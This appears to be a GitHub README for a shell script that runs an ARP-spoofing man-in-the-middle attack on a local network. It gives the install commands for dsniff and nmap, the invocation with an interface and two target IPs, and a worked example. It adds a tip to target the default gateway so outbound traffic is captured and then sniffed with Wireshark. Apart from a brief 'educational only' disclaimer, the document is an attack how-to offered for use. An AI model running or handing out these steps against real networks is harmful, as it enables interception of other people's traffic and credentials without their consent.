 # Man In The Middle
This repository contains a Linux shell script to redirect LAN traffic to the local machine. This is known as a Man In The Middle attack and consists of poisoning the ARP tables with false information to fool the two machines.

**IMPORTANT: This script is for educational purposes only and the owners of the affected IP addresses must authorize the redirection of traffic through their computer.**

## 1. Set up

The attack uses the arpspoof program that can be found in the dsniff package. You can use the following commands to add it on your machine.

```
sudo apt-get update
sudo apt-get install dsniff

cd man-in-the-middle/
chmod +x setup.sh
```

## 2. Start attack

Open folder and execute the shell script.

```
cd man-in-the-middle/
sudo ./setup.sh [interface] [target 1] [target 2]
```

### 2.1 Example

If we have the following network, the script needs the two IP address of end to end machines and our interface name. 

With the next command we can obtain the active interface name.

```
ip addr show | awk '/inet.*brd/{print $NF; exit}'
```

The target IP address it can be obtained by a LAN analyser or nmap package. If you don't have it, you can easily intalled with this command.

```
sudo apt-get install nmap
```

<img src="https://versprite.com/wp-content/uploads/2017/12/MiTM-Attack.png">

In this example our IP address is 10.5.0.135 and the interface name is wlan0. The targets are 10.5.0.180 and 10.5.0.190. Finally we put all this information as script arguments.

```
cd man-in-the-middle/
sudo ./setup.sh wlan0 10.5.0.180 10.5.0.190
```

NOTE 1: The order of the targets is not relevant.

NOTE 2: The IP addresses must belong to the same subnet as the attacker's computer. If you want to capture the traffic between a computer on the LAN and outbound connexions, you must specify the default gateway address as one of the targets.

Now all traffic between targets pass through our computer and can be caught by a sniffer program such as Wireshark.

## 3. Stop attack

Press Ctrl + c or close the shell window.

The targets may lose connection for a few seconds, but it recovers automatically.
